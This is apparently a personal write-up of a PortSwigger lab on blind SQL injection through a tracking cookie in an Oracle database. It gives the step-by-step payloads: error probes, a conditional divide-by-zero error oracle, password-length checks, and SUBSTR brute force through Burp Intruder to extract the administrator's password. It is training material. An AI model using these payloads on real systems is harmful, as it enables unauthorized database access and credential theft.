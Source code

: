This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Captured the http page in burpsuite

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/939b26f8-8ddc-42e3-a97d-303a4660cf28)

appending the `'` to the tracking id and verify that error message is shown

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae8b1bae-f2c4-434f-8c55-bdd4fde6441a)

giving 2 `'` the error is gone so the syntax is right

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9948e1fd-f7a3-41e2-b8ba-2d469451d7d5)

now giving `'||(SELECT ''FROM )||'` we get error

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a079ecfd-cea4-454c-a4e9-718d5531d4b1)

now giving `'||(SELECT ''FROM dual)||'` the error is gone so the syntax is correct.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/25613ed2-63fb-4677-ad7a-bdea4c9e9537)

No error we got respones.So it is orcal database.

the payload `'||(SELECT '' FROM not-a-real-table)||'` gives error because the table does not exist

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b8054eba-55bf-479e-b96c-bebadd3a263b)


### Check Whether the users table is present 

`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/93036487-9992-436f-9a5d-a66b07aaeb65)

No error so there exist a table users.

### Check Whether the username administrator is present in users table

the payload `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` is given

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/640cb04a-354b-48ef-8bfb-ebc1ab1f47c7)

We receive an error. means the condition is TRUE and username administrator is present in users table.

### Determine the length of admin's password

giving length as 15 error message recived so the condition is true

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae9d5c46-7470-43d7-be1f-008c017f601f)

giving length as 25 error message is not recived so condition is false, so the password range is between 15~25

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d9c4be96-17c8-4df0-affd-699941dfadd5)

To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER.
Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/adbc7c01-5ded-4a89-b071-5f851d6dc01d)

the result has error till 19 so 20 is the exact length of the password.

### Finding the 20 characters length password by Brute force

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/fc12686a-4b84-4689-a142-322f037ce99c)

`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

a is not the first letter of the password.

To find the first character of the password send qury to  Intruder then and Add the string part as payload and select attack type as Cluster Bomb .
Then go to  payload sleect payload type as bruteforce set min and max =1  and start the attack 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e0865691-c5ac-459f-a358-3489a5f46c66)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/36b84ad7-ddcf-4176-868a-bcb50d5b548f)

the password is got as `furqyd5eyu1ij9awrgq8`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b7d2a169-4adb-495b-816f-ca74cf71b3f4)

Logged in as administrator, solved the lab successfully


